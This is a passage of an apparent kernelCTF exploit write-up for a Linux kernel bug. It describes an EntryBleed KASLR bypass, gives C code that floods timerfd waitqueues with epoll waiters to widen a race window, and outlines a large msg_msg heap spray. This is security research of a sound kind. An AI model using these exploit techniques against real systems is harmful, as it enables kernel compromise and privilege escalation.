 
## EntryBleed: Breaking KASLR under KPTI with Prefetch (CVE-2022-4543)
This technique we used to bypass KASLR.  This technique we're able to predict/guess the physmap address of the msg_msg object in kernel heap. In our exploit this technique also shown to get kernel .text address, but it will be corrected later when we get kernel .text address via pipe_buffer leak to make it more reliable. You can find the details about this technique [here](https://www.willsroot.io/2022/12/entrybleed.html).

## Prepare timerfd
We adopt the exploit tech from `Jann's blog Racing against the clock -- hitting a tiny kernel race window` to extend the race windows
To make race windows larger on kernels without CONFIG_PREEMPT.
* make a timerfd expire in that window (which will run in an interrupt handler - in other words, in hardirq context)
* make sure that the wakeup triggered by the timerfd has to churn through many waitqueue items created by epoll

So function `do_epoll_enqueue` in our exploit code is to do such thing
```C
void do_epoll_enqueue(int fd)
{
	int cfd[2];
	socketpair(AF_UNIX, SOCK_STREAM, 0, cfd);
	for (int k = 0; k < 0x4; k++)
	{
		if (fork() == 0)
		{
			for (int i = 0; i < 0x100; i++)
			{
				timefds[i] = SYSCHK(dup(fd));
			}
			for (int i = 0; i < 0xc0; i++)
			{
				epfds[i] = SYSCHK(epoll_create(0x1));
			}
			for (int i = 0; i < 0xc0; i++)
			{
				for (int j = 0; j < 0x100; j++)
				{
					// queue as many as possible async waiters at timerfd waitqueue
					epoll_ctl_add(epfds[i], timefds[j], 0);
				}
			}
			write(cfd[1], buf, 1);
			raise(SIGSTOP); // stop here for nothing and just keep epoll alive
		}
		// sync to make sure it has queue what we need
		read(cfd[0], buf, 1);
	}
	close(cfd[0]);
	close(cfd[1]);
}
```
## Spray large amount msg_msg
To bypass KASLR we using EntryBleed to guess msg_msg address at kernel heap physmap address. To make it more stable
we spray large amount msg_msg in kernel heap to increase probability guessed kernel address is msg_msg object.
There's total 794MB spray data, and this is enough to perform exploitation in kernelCTF instance with 4GB of RAM.
This is following code where we setup and spray kernel heap with msg_msg.